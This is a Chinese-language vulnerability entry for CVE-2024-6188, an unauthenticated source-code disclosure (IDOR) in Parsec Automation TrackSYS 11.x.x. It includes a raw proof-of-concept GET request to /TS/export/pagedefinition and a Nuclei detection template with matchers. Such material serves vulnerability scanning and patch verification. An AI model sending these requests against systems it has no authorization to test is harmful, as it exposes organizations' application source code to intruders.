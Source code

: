 **漏洞名称**

Parsec Automation TrackSYS 敏感数据泄露漏洞

**漏洞影响**

Parsec Automation TrackSYS 11.x.x

**漏洞描述**

TrasYSYS是一个由ParsecAutomation Corp.开发的软件平台，用于管理实时操作和优化制造流程。广泛应用于各行业，用于监测、分析和提高生产过程的效率和生产率。在Parsec Automation TrackSYS 11.x.x中发现一个漏洞，攻击者不需要访问应用的任何凭据，可以直接导出页面的源代码。此问题影响文件/TS/export/pagedefinition的某些未知处理。参数ID的操作会导致直接请求。攻击可以远程启动。该漏洞已向公众公开，并可能被利用。

**漏洞复现**

POC数据包如下，传递任意真实存在的ID，即可导出源代码

```yaml
GET /TS/export/pagedefinition?ID={ID} HTTP/1.1
Host: {HOST}
```

```yaml
id: CVE-2024-6188

info:
  name: TrakSYS 11.x.x - Sensitive Data Exposure
  author: securityforeveryone
  severity: medium
  description: |
    A vulnerability was found in Parsec Automation TrackSYS 11.x.x and classified as problematic. This issue affects some unknown processing of the file /TS/export/pagedefinition. The manipulation of the argument ID leads to direct request. The attack may be initiated remotely. The exploit has been disclosed to the public and may be used.
  impact: An attacker is able to export the source code of the pages without having any credentials to access the application.
  reference:
    - https://kiwiyumi.com/post/tracksys-export-source-code/
    - https://nvd.nist.gov/vuln/detail/CVE-2024-6188
    - https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2024-6188
    - https://debricked.com/vulnerability-database/vulnerability/CVE-2024-6188
  metadata:
    verified: true
    max-request: 1
    vendor: parsec-automation
    product: tracksys
  tags: cve,cve2024,traksys,idor,info-leak

http:
  - raw:
      - |
        GET /TS/export/pagedefinition?ID=1 HTTP/1.1
        Host: {{Hostname}}

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - 'TrakSYS Version'
          - 'Name'
          - 'Altname'
        condition: and

      - type: word
        part: content_type
        words:
          - 'text/plain'

      - type: status
        status:
          - 200
# digest: 4a0a00473045022100b253a5a98a7432b44402719cf5070ea48a46f736dd935a3d191850571d8ee09502204dbe17d2cfedb94c6e00365e24ceab71bea2bc0076eaafda23b18aabc7585dab:922c64590222798bb761d5b6d8e72950
```


